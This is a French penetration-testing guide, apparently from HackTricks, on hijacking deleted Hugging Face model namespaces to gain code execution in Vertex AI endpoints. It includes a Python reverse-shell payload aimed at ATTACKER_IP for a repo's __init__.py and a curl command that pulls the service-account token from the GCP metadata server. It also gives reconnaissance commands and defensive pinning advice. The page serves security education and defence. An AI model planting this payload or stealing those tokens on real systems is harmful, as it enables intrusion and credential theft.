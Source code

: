 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scénario

- Vertex AI Model Garden permet le déploiement direct de nombreux modèles Hugging Face (HF).
- Les identifiants de modèles HF sont Author/ModelName. Si un author/org sur HF est supprimé, le même nom d'auteur peut être ré-enregistré par n'importe qui. Les attaquants peuvent alors créer un repo avec le même ModelName au chemin hérité.
- Des pipelines, SDKs, ou catalogues cloud qui récupèrent uniquement par nom (pas de pinning/intégrité) vont récupérer le repo contrôlé par l'attaquant. Quand le modèle est déployé, le code de loader de ce repo peut s'exécuter à l'intérieur du conteneur du endpoint Vertex AI, donnant une RCE avec les permissions de l'endpoint.

Deux cas courants de takeover sur HF :
- Suppression du propriétaire : l'ancien chemin renvoie 404 jusqu'à ce que quelqu'un ré-enregistre l'auteur et publie le même ModelName.
- Transfert de propriété : HF émet des redirections 307 de l'ancien Author/ModelName vers le nouvel author. Si l'ancien author est ensuite supprimé et ré-enregistré par un attaquant, la chaîne de redirection est rompue et le repo de l'attaquant répond au chemin hérité.

## Identification des namespaces réutilisables (HF)

- Ancien author supprimé : la page de l'author renvoie 404 ; le chemin du modèle peut renvoyer 404 jusqu'au takeover.
- Modèles transférés : l'ancien chemin du modèle émet 307 vers le nouveau propriétaire tant que l'ancien author existe. Si l'ancien author est ensuite supprimé et ré-enregistré, le chemin hérité résoudra vers le repo de l'attaquant.

Vérifications rapides avec curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flux d'attaque de bout en bout contre Vertex AI

1) Découvrir des espaces de noms de modèles réutilisables que Model Garden indique comme déployables :
- Trouver des modèles HF dans Vertex AI Model Garden qui apparaissent encore comme “verified deployable”.
- Vérifier sur HF si l'Author original a été supprimé ou si le modèle a été transféré et que l'ancien Author a ensuite été supprimé.

2) Réenregistrer l'author supprimé sur HF et recréer le même ModelName.

3) Publier un repo malveillant. Inclure du code qui s'exécute au chargement du modèle. Exemples qui s'exécutent couramment lors du chargement d'un modèle HF :
- Effets de bord dans __init__.py du repo
- Fichiers modeling_*.py personnalisés ou code de processing référencé par config/auto_map
- Chemins de code nécessitant trust_remote_code=True dans les pipelines Transformers

4) Un déploiement Vertex AI du Author/ModelName hérité récupère maintenant le repo de l'attaquant. Le loader s'exécute à l'intérieur du container de l'endpoint Vertex AI.

5) Le payload établit un accès depuis l'environnement de l'endpoint (RCE) avec les permissions de l'endpoint.

Exemple de fragment de payload exécuté à l'import (à titre de démonstration uniquement):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Remarques
- Les loaders en conditions réelles varient. De nombreuses intégrations Vertex AI HF clonent et importent des modules de repo référencés par la config du modèle (par ex., auto_map), ce qui peut déclencher l'exécution de code. Certaines utilisations nécessitent trust_remote_code=True.
- L'endpoint s'exécute généralement dans un conteneur dédié avec un périmètre limité, mais il constitue un point d'appui initial valable pour l'accès aux données et les mouvements latéraux dans GCP.

## Conseils post-exploitation (Vertex AI Endpoint)

Une fois le code exécuté dans le conteneur de l'endpoint, envisagez :
- Énumérer les variables d'environnement et les métadonnées à la recherche d'identifiants/tokens
- Accéder au stockage attaché ou aux artefacts de modèle montés
- Interagir avec les API Google via l'identité du compte de service (Document AI, Storage, Pub/Sub, etc.)
- Persistance dans l'artefact du modèle si la plateforme retélécharge le repo

Énumérer les métadonnées de l'instance si accessibles (dépend du conteneur) :
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Conseils défensifs pour les utilisateurs de Vertex AI

- Épingler les modèles par commit dans les HF loaders pour empêcher le remplacement silencieux :
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Mettre en miroir les HF models vérifiés dans un dépôt/registry d'artefacts interne de confiance et déployer depuis celui-ci.
- Scanner en continu les codebases et configs à la recherche d'Author/ModelName codés en dur qui sont supprimés/transférés ; mettre à jour vers les nouveaux namespaces ou épingler par commit.
- Dans Model Garden, vérifier la provenance du modèle et l'existence de l'auteur avant le déploiement.

## Heuristiques de reconnaissance (HTTP)

- Auteur supprimé : page de l'auteur 404 ; chemin legacy du modèle 404 jusqu'à la prise de contrôle.
- Modèle transféré : chemin legacy 307 vers le nouvel auteur pendant que l'ancien auteur existe ; si l'ancien auteur est ensuite supprimé puis ré-enregistré, le chemin legacy sert du contenu malveillant de l'attaquant.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Références croisées

- Voir la méthodologie plus large et les notes sur la chaîne d'approvisionnement :

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Références

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
